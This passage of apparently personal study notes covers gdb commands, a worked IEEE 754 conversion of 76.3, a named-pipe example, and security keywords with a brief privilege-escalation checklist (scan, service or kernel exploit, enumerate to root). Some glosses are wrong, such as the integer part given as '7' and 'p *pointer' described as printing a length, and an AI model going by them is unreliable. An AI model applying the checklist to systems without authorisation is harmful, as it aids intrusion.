        + $fp                            # an alias for $EBP or $RBP
        + $ps                            # processor status
        
    + x                     # display the memory content of an address
      - x/i $pc                          # instruction which $pc points to
      - x/x $pc (hexadecimal)
      - x/t $pc (binary)
      - x/c $pc (char)
      - x/a $pc (address)
      - x/d $pc (decimal)
      - x/u $pc (unsigned decimal)
      - $_                               # the last addr evaled
      - $__                              # the last value evaled
      - x/8gx $RSI                       # 8 giant-word(64-bit value) in hex, started from address $RSI
        
    + disas main

    + info locals                        # list local vars
      - p(rint) <varName> [=<nuwValue>]  # print/alter an var
      - p *<pointerName>                 # print len(*p)
      - p *<pName>[@<arrLength>]         # print *p (e.g. array elements)
      - set $foo = $bar

    + make                               # makefile
      
    + bt(backtrace) full                 # backtrace, use after crach


* S0 misc
** IEEE 754 floating number representation
   | 0           |       10000011 | 01000000000000000000000 |
   | 1-bit sign  | 8-bit exponent |         23-bit mantissa |
   | 0: positive |                |                         |

   + theRealFloatingPointValue = <sign>(1 + mantissa) * (2 ** (exponent - 127))
   + decimal <-> binary conversion:
     | decimal | 10^n, ... 10^1, 10^0, 10^-1, ... 10^-n |
     | binary  | 2^n, ... 2^1, 2^0, 2^-1, ... 2^-n      |
     
   + an example: convert an decimal 76.3 to floating number format.
     - the integer part: 7.
       | 76 / 2 | 38 | 0 |
       | 38 / 2 | 19 | 0 |
       | 19 / 2 |  9 | 1 |
       | 9 / 2  |  4 | 1 |
       | 4 / 2  |  2 | 0 |
       | 2 / 2  |  1 | 0 |
       | 1 / 2  |  0 | 1 |
       + the decimal 76 is equivalent to 0b1001100.

     - the fractional-part: 0.3, similarly, consider doing the (*2) and take the 1. Since it might be more human readable, than dividing a digit by 2^-n. 
       | 0.3 * 2 | 0.6 | 0 |
       | 0.6 * 2 | 1.2 | 1 |
       | 0.2 * 2 | 0.4 | 0 |
       | 0.4 * 2 | 0.8 | 0 |
       | 0.8 * 2 | 1.6 | 1 |
       | 0.6 * 2 | 1.2 | 1 |
       |         |     | . |
       |         |     | . |
       |         |     | . |
       + the decimal 0.3 is equivalent to 0.0100110011001... in binary.
         
     - combining the two parts
       + 1001100.0100110011001... is:
         - in scientific notation, 1.001100 0100110011001... * (2 ** 6).
       + the exponent bias is 127, or 0b01111111.
         - in this case, 127 + 6 = 133 or 0b10000101
       + the mantissa is the representation in scientific notation without the leading 1:
         - in this case, 001100 0100110011001...
       |              0 |      10000101 | 001100 0100110011001... |
       | 0 for positive | 6 + bias(127) | 23-bit mantissa         |
      
     - the final representation is: 0100 0010 1001 1000 1001 1001 1001...

       
* keywords misc
  + cfg bypass
  + [[https://danielmiessler.com/study/red-blue-purple-teams/]]
  + CVE-2017-0199 analysis


* checklist
  + scan
  + service/kernel exploit -> user
  + id/sudo/service/kernel/config enum -> root
    - enum services with root access?

//TODO 
burpsuite
ipython

* linux misc
  
** named pipe
   + info:
   #+begin_quote
   In computing, a named pipe (also known as a FIFO for its behavior) is an extension to the traditional pipe concept on Unix and Unix-like systems, and is one of the methods of inter-process communication (IPC). The concept is also found in OS/2 and Microsoft Windows, although the semantics differ substantially. A traditional pipe is "unnamed" and lasts only as long as the process. *A named pipe, however, can last as long as the system is up, beyond the life of the process*. It can be deleted if no longer used. Usually a named pipe appears as a file, and generally processes attach to it for IPC.
   #+end_quote
   + src:
   #+begin_src sh
   mkfifo my_pipe
   gzip -c < my_pipe > out.gz &
   echo 'a' > my_pipe
   #+end_src
   

